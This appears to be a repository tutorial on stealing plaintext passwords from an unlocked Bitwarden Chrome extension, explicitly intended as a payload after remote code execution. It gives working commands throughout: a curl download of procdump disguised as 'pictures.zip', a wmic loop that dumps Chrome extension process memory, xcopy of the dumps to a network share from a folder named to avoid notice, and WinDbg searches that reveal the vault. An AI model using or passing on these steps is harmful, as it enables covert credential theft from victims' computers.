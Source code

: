 # Retrieving and Analyzing Memory to View Bitwarden Passwords

## About This Tutorial
This tutorial will teach you how to get plaintext passwords from an unlocked Bitwarden Web Vault Chrome browser extension using memory analysis. The idea here is that this can be used as a payload for a RCE to get the  Bitwarden passwords of a computer in use. 

### What this is **NOT**:
 - This does NOT teach you how to retreive or recover a master password for a bitwarden vault
 - This is NOT an exploit for Bitwarden, Chrome, or the Kernel

### Prerequisites to this Tutorial:

 - Windbg is installed on the Host computer, how to install this software can be found [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/).
 - You have access to an elevated command prompt on the Target Computer, or can otherwise run commands with elevated priveleges
 - The Target computer has an internet connection 

## Step 1: Get a Debugger to Copy Chrome Memory
For this tutorial I'm going to use procdump, it's quite compact and doesn't require an installer, so it is perfect for this scenario. On the target computer, run the command:

    curl https://download.sysinternals.com/files/Procdump.zip -o pictures.zip

Here we just downloaded procdump as a file called "pictures.zip", an unsuspecting user might not immediately recognize this as a new file.

Next we will want to extract the .zip, we can use tar for this:

    tar -xf pictures.zip

## Step 2: Create a Memory Dump of Chrome Extensions
We are going to use wmic to get the process IDs of the running chrome extension processes, then use procdump to dump the memory to some files. We can do this in one command:

    for /f %i IN ('wmic.exe process where "CommandLine Like '%--extension-process%' and name Like 'chrome%'" get ProcessID') do (procdump.exe -accepteula -ma %i)

The output will be some .dmp files that you should copy to your Host computer. You can use xcopy, robocopy, or whatever command you'd like to copy the file to a network location. I'm going to give an example where we ran procdump in an empty folder called "Nothing Suspicious" in the ProgramData directory:

    xcopy "C:\ProgramData\Google Chrome" [Network Drive Path] /s /e


## Step 3: Analyze Memory Dump to Retrieve Plaintext Passwords

On the Host computer, open up Windbg and drag and drop the memory dump into the window. 

In the command line of windbg, enter the following command:

    s-a 0`00000000 L?5000000000000 'password".'

This searches for the ascii text that is correlated with the  from the first memory address, and the search will include all of the memory addresses in the dump, unless the file size exceeds ~5GB (but in that case you have a whole other issue).

Copy down one of the memory addresses outputted from the previous command. Then go to View > Memory to open up the memory viewer. In the address input box, paste the address you just copied. From here you can see your vault in plaintext.

